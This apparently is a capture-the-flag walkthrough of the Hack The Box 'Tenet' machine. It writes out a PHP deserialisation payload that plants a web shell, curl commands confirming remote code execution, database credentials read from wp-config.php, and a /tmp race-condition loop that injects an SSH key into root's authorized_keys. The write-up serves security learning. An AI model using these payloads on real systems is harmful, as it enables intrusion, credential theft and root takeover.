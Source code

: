 # Tenet

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.1  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:28 EDT
Nmap scan report for 10.129.85.1
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Another web-based exploit. We have to add `tenet.htb` to our `/etc/hosts` file to view the website.

### Tenet PHP Deserialisation

The machine has a blog-like website:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

This is a Wordpress based site if we view the page source. If we view some of the comments within the pages, we can see this comment that points us towards another file:

<figure><img src="../../../.gitbook/assets/image (86) (4).png" alt=""><figcaption></figcaption></figure>

Visiting `sator.php` won't do anything. Instead, visit`http://<IP>/sator.php.bak`, and it would download file to our machine. Then, we can view the file contents:

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This was an obvious deserialisation exploit at the `sator.php` file hosted on the IP address. As such, we can create this small bit of code that would write a new file to the machine.

```php
<?php

class DatabaseExport {

    public $file = "cmd.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$input = new DatabaseExport;
echo serialize($input);
?>
```

When run in PHP, it wouuld create a PHP Serialised object. Then, we just need to send that within the `arepo` parameter in a GET request to `sator.php`:

```
$ curl -G --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' http://10.129.85.1/sator.php
```

Afterwards, we can confirm we have RCE on the machine:

```
$ curl http://10.129.85.1/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Just spawn a reverse shell using a basic `bash` shell next.

<figure><img src="../../../.gitbook/assets/image (56) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wordpress Credentials

Now that we are in, we can read the `wp-config.php` file. We would find some credentials in it:

```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can then just `su` to `neil` and grab the user flag.

### Sudo Race Condition

When we check `sudo` privileges, we see this:

```
www-data@tenet:/var/www/html$ sudo -l
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Here's the script:

```bash
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}
```

This script is a classic example of a race condition attack. Since the key is temporarily created within the `/tmp` directory before being added to the `authorized_keys` folder of `root`, we can intercept the response by having a loop running within the `/tmp` directory that checks for the key's creation, then overwrite the file with my own key.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># in first SSH shell
while true; do for file in /tmp/ssh-*; do echo 'YOUR KEY VALUE' > $file ; done; done
# in another
<strong>while true; do sudo /usr/local/bin/enableSSH.sh; done
</strong><strong>
</strong><strong># alternatively, run this script
</strong>#!/bin/bash

while true; do
        cat id_rsa.pub | tee /tmp/ssh-*
        sudo /usr/local/bin/enableSSH.sh
done
</code></pre>

After a while, we should get an error like this:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH to `root`.

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Rooted!
